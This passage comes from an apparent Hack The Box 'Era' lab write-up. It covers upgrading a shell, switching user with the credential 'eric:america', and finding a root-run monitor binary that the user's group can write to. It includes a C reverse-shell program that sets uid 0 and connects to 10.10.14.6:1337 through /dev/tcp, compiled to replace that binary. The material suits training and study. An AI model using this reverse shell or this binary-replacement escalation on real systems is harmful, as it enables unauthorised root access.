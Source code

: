 Then I would like upgrade the shell
```
upgrade to PTY
python3 -c 'import pty;pty.spawn("bash")'
^Z
stty raw -echo; fg
```

Then we can use `su eric` and the credit `eric:america` to get the shell as `eric`
```
yuri@era:~$ su eric
Password: 
eric@era:/home/yuri$ 

```

# Privilege Escalation
Then by check the process of background for root
```
eric@era:~$ ps aux | grep root 
root        7540  0.0  0.0   2892   968 ?        Ss   05:05   0:00 /bin/sh -c bash -c '/root/initiate_monitoring.sh' >> /opt/AV/periodic-checks/status.log 2>&1
root        7541  0.0  0.0   4784  3412 ?        S    05:05   0:00 /bin/bash /root/initiate_monitoring.sh
root        7551  0.0  0.0   2776   964 ?        S    05:05   0:00 /opt/AV/periodic-checks/monitor
```
We can found there is a monitor running in the background.

And we can even write to this file 
```
eric@era:~$ ls -al /opt/AV/periodic-checks/monitor
-rwxrw---- 1 root devs 16544 Jul 27 05:09 /opt/AV/periodic-checks/monitor
eric@era:~$ id
uid=1000(eric) gid=1000(eric) groups=1000(eric),1001(devs)

eric@era:~$ file /opt/AV/periodic-checks/monitor
/opt/AV/periodic-checks/monitor: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=45a4bb1db5df48dcc085cc062103da3761dd8eaf, for GNU/Linux 3.2.0, not stripped
```

So I think we need to replace this monitor with our malicious reverse shell.

Firstly, let's make this malicious monitor
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Era]
└─$ cat reverse.c 
// save as reverse.c
#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.14.6/1337 0>&1", NULL);
    return 0;
}

┌──(wither㉿localhost)-[~/Templates/htb-labs/Era]
└─$ x86_64-linux-gnu-gcc -o monitor reverse.c -static

                                                                                      
┌──(wither㉿localhost)-[~/Templates/htb-labs/Era]
└─$ file monitor 
monitor: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=b2738dede88e638e03c2be0d6de23bcb3c300aa6, for GNU/Linux 3.2.0, not stripped

```
